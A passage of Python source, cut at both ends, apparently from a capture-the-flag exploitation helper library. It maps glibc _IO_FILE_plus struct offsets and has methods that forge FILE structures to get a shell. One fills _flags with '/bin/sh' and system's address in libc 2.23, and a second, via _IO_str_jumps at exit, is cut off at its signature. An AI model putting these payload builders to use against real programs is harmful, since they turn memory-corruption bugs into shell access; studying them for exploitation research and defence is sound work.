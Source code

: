 ```python
                0x94:'vtable'
            },
            'amd64':{
                0x0:'_flags',
                0x8:'_IO_read_ptr',
                0x10:'_IO_read_end',
                0x18:'_IO_read_base',
                0x20:'_IO_write_base',
                0x28:'_IO_write_ptr',
                0x30:'_IO_write_end',
                0x38:'_IO_buf_base',
                0x40:'_IO_buf_end',
                0x48:'_IO_save_base',
                0x50:'_IO_backup_base',
                0x58:'_IO_save_end',
                0x60:'_markers',
                0x68:'_chain',
                0x70:'_fileno',
                0x74:'_flags2',
                0x78:'_old_offset',
                0x80:'_cur_column',
                0x82:'_vtable_offset',
                0x83:'_shortbuf',
                0x88:'_lock',
                0x90:'_offset',
                0x98:'_codecvt',
                0xa0:'_wide_data',
                0xa8:'_freeres_list',
                0xb0:'_freeres_buf',
                0xb8:'__pad5',
                0xc0:'_mode',
                0xc4:'_unused2',
                0xd8:'vtable'
            }
        }
        for k, v in _IO_FILE_plus_struct_map[arch].items():
            print("  {} : {} ".format(hex(k), v))


    def getshell_from_IO_puts_by_stdout_libc_2_23(self, stdout_store_addr:int, system_addr:int, lock_addr:int):
        """Exec shell by IO_puts by _IO_2_1_stdout_ in libc-2.23.so

        Args:
            stdout_store_addr (int): The address stored in stdout. Probably is libc.sym['_IO_2_1_stdout_'].
            system_addr (int): System address.
            lock_addr (int): Lock address.

        Returns:
            bytes: payload.
        """
        self.flags = 0x68732f6e69622f
        self._IO_read_ptr = 0x61
        self._IO_save_base = system_addr
        self._lock = lock_addr
        self.vtable = stdout_store_addr + 0x10
        return self.__bytes__()


    # only support amd64
    def getshell_by_str_jumps_finish_when_exit(self, _IO_str_jumps_addr:int, system_addr:int, bin_sh_addr:int):
```